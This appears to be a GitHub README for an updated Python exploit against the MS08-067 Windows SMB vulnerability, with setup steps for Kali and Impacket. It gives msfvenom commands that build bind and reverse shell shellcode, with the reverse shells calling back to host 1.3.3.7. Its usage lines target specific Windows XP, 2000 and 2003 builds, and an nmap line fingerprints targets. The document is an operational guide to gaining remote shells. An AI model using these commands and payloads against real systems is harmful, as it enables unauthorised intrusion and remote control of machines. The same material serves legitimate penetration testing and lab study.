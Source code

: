 # MS08_067 Python Exploit Script - Updated 2018

This is an updated version of the super old MS08-067 Python exploit script.  It implements some fixes to allow easy exploitation on a wider range of configurations.

Cloned and edited from this repository:
https://github.com/jivoi/pentest/

## Installation on Kali

`git clone https://github.com/andyacer/ms08_067/`

**You'll need to update Kali's Impacket version to 0_9_17**

Here in 2018, Kali's package management is on an old version of Impacket.  Here's the steps on how to fix it:

```
git clone --branch impacket_0_9_17 --single-branch https://github.com/CoreSecurity/impacket/
cd impacket
pip install .
```

## Update Notes

- Added support for selecting a target port at the command line.  It seemed that only 445 was previously supported.
- Changed library calls to correctly establish a NetBIOS session for SMB transport
- Changed shellcode handling to allow for variable length shellcode. Just cut and paste into this source file.

## Generating Shellcode

Example msfvenom commands to generate shellcode.  Just paste these into the file which you'll edit after downloading.  'Cause you're an awesome hacker like that.

```
msfvenom -p windows/shell_bind_tcp RHOST=192.168.1.1 LPORT=443 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f c -a x86 --platform windows

msfvenom -p windows/shell_reverse_tcp LHOST=1.3.3.7 LPORT=443 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f c -a x86 --platform windows

msfvenom -p windows/shell_reverse_tcp LHOST=1.3.3.7 LPORT=62000 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f c -a x86 --platform windows
```
## Usage

Usage: ms08_067_2018.py <target ip> <os #> <Port #>

* Example: MS08_067.py 192.168.1.1 1 445 -- for Windows XP SP0/SP1 Universal, port 445
* Example: MS08_067.py 192.168.1.1 2 139 -- for Windows 2000 Universal, port 139 (445 could also be used)
* Example: MS08_067.py 192.168.1.1 3 445 -- for Windows 2003 SP0 Universal
* Example: MS08_067.py 192.168.1.1 4 445 -- for Windows 2003 SP1 English
* Example: MS08_067.py 192.168.1.1 5 445 -- for Windows XP SP3 French (NX)
* Example: MS08_067.py 192.168.1.1 6 445 -- for Windows XP SP3 English (NX)
* Example: MS08_067.py 192.168.1.1 7 445 -- for Windows XP SP3 English (AlwaysOn NX)

Also: nmap has a good OS discovery script that pairs well with this exploit:
nmap -p 139,445 --script-args=unsafe=1 --script /usr/share/nmap/scripts/smb-os-discovery 192.168.1.1

